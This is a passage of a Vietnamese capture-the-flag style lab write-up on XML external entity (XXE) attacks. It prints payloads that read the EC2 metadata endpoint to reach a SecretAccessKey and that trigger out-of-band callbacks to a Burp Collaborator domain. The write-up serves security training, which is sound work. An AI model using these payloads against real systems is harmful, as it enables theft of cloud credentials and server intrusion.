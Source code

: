 >Khi đó, thực thể `test` sẽ lấy dữ liệu bên trong đường dẫn `http://169.254.169.254` và in nó ra màn hình:
>![image](https://hackmd.io/_uploads/Hyso7cxG0.png)

>Thông báo lỗi **"Invalid product ID: latest"**, => `latest` chính là đường dẫn chứa EC2 metadata.
>Sử dụng payload sau và tiếp tục lấy được địa chỉ tiếp theo: 
>`<!DOCTYPE foo [<!ENTITY test SYSTEM "http://169.254.169.254/latest"> ]>`
![image](https://hackmd.io/_uploads/Sy72HqlzA.png)

>Tiếp tục quá trình trên, cuối cùng ta sẽ thu được `SecretAccessKey`
>![image](https://hackmd.io/_uploads/H1oeIqgf0.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/HJrm89eG0.png)

# **3. Lab: Blind XXE with out-of-band interaction**
![image](https://hackmd.io/_uploads/Sy4Nd9xzA.png)

>Truy cập lab và thấy có chức năng Check stock để kiểm tra số hàng trong kho:
![image](https://hackmd.io/_uploads/SJTYjcgMC.png)

>Bắt request `POST /product/stock` và thấy rằng phần body được viết bằng XML:
![image](https://hackmd.io/_uploads/S1ZsjcxGR.png)

>Nghi ngờ tại chỗ này có khả năng bị lỗ hổng XXE, cho request sang Repeater, thử thêm 1 số giá trị lạ làm sai cú pháp vào trong body xem XML Parse có đang thực hiện việc xử lí không: 
>![image](https://hackmd.io/_uploads/SJDps5xf0.png)

>Thử thêm thực thể đã được định nghĩa sẵn, như `&lt;` (dấu <): ![image](https://hackmd.io/_uploads/SyfX3clM0.png)

>Nhưng server không trả về bất cứ gì!

>Tiếp tục thử thêm 1 DTD mới: ![image](https://hackmd.io/_uploads/SJCuhclfR.png)

>Kết quả server vẫn không trả về thêm 1 thông tin gì để khai thác, nhưng nó vẫn xử lí lỗi sai cú pháp! => có thể dính Blind XXE !!

>Ta có thể dùng tương tác ngoài băng tần Out-of-band để khai thác, sử dụng Burp Collaborator, và trỏ tới domain của ta: 
>`<!DOCTYPE foo [<!ENTITY test SYSTEM "http://vtsghed42amqo562v3k9pletnktbh15q.oastify.com"> ]>`
>![image](https://hackmd.io/_uploads/r12x65ezA.png)

>Lúc này bên phía Collab nhận được các request gửi tới: ![image](https://hackmd.io/_uploads/rkXNpqlGA.png)

>Từ đó, ta có thể biết được rằng bên server sử dụng Java/21.0.1... Hoàn thành bài lab: 
>![image](https://hackmd.io/_uploads/SyTD6qgMC.png)

# **4. Lab: Blind XXE with out-of-band interaction via XML parameter entities**
>Mô tả cho biết chức năng "Check stock" trong lab sử dụng XML để phân tích dữ liệu đầu vào, nhưng nó không hiển thị kết quả ngoài mong muốn lên màn hình, và đặc biệt còn chặn các request chứa các thực thể bên ngoài thường dùng.
![image](https://hackmd.io/_uploads/S14py6xGA.png)
